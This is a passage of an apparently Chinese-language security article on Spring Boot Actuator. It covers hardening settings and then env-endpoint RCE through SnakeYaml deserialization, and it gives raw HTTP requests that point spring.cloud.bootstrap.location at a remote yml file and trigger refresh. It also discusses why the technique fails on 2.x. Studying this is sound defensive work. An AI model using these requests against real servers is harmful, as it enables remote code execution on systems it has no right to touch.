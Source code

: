   
此外还有spring-boot-starter-security可以跟actuator加认证。  
```
security.user.name=admin
security.user.password=123456
management.security.enabled=true
management.security.role=ADMIN
```  
  
或者给actuator改个目录  
```
management.endpoints.web.base-path=/monitor
```  
  
来作为防御措施。  
  
  
  
二、	env RCE  
  
  
1，SnakeYaml反序列化(refresh)  
  
env最基础的RCE方式有两个，一个是远程加载yml文件，然后refresh触发SnakeYaml反序列化。  
```
POST /actuator/env HTTP/1.1
Host: 127.0.0.1:9999
Content-Type: application/json
Content-Length: 28

{"name":"spring.cloud.bootstrap.location","value":"http://127.0.0.1:81/example.yml"}
```  
  
```
POST /actuator/refresh HTTP/1.1
Host: 127.0.0.1:9999
Content-Type: application/json
Content-Length: 2

{}
```  
  
  
yml文件写法如下(可更换成其他SnakeYaml反序列化)  
  
https://github.com/artsploit/yaml-payload  
  
但是这个payload是将springboot 1.x env SnakeYaml RCE转化成2.x，实际上在2.x上是没法用的，refresh并不会远程加载yml，具体分析如下。  
  
https://b1ngz.github.io/exploit-spring-boot-actuator-spring-cloud-env-note/  
  
比refresh更进一步的restart可以触发远程加载yml。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU75TZVIyYZOsxAgqMzqkicUDovib177eNeyK8YHVfLpCOMnnDbmBhfQb3ulLAVSjRd9UevucljeKtJg/640?wx_fmt=png&from=appmsg "")  
  
但这个动作非常危险，因为它虽然能触发远程加载yml，但无法完成反序列化，并且还会因此抛错并退出springboot进程。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU75TZVIyYZOsxAgqMzqkicUDptSK6KqCg6yz0Q0AJEqice482U63zgucicRA8TCgp0UwVzn3RcL3f1CA/640?wx_fmt=png&from=appmsg "")  
  
通过断点Yaml的创建过程可知，高版本springboot使用了安全构造器，因此无法反序列化(后记：还有别的原因，请看上面的文章)。  
  